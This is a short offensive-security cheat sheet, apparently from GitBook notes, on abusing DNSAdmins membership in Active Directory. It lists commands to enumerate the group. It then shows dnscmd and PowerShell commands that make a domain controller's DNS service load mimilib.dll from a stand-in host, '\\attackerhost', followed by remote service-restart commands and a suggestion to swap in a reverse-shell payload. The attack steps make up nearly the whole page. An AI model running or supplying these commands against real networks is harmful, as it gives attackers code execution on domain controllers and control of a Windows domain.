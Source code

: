 ### Tool

**1. Enumerate the member sof the DNSAdmins group (PowerView)**

<pre class="language-powershell"><code class="lang-powershell"><strong>PowerView
</strong><strong>Get-NetGroupMember -GroupName "DNSAdmins"
</strong>
AD-Module
Get-ADGroupMember -Identity DNSAdmins
</code></pre>

**2. From the privileges of DNSAdmins group member, configure DLL using**&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong>Using dnscmd.exe (needs RSAT DNS installed on the compromised machine)
</strong><strong>dnscmd dom.local /config /serverlevelplugindll \\attackerhost\dll\mimilib.dll
</strong>
Using DNSServer module (needs RSAT DNS installed on the compromised machine)
$dnsettings = Get-DnsServerSetting -computername dc-hostname -verbose -all
$dnsettings.ServerLevelPluginDll="\\attackerhost\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -computername dc-hostname -verbose
</code></pre>

This sets a new Key in HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters called ServerLevelPluginDll with the value of \\\attackerhost\dll\mimilib.dll

**3. Restart the DNS Service**

```powershell
sc \\dc-hostname stop dns
sc \\dc-hostname start dns
```

A new file called kiwidns.log is creatd in C:\Windows\System32 and all the DNS requests are logged there.

Modify the kdns.c with your own payload. This is a synchronous task, so if you start a reverse shell, the DNS service itself will stop in this host.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## 👾gMSA - Group Managed Service Account
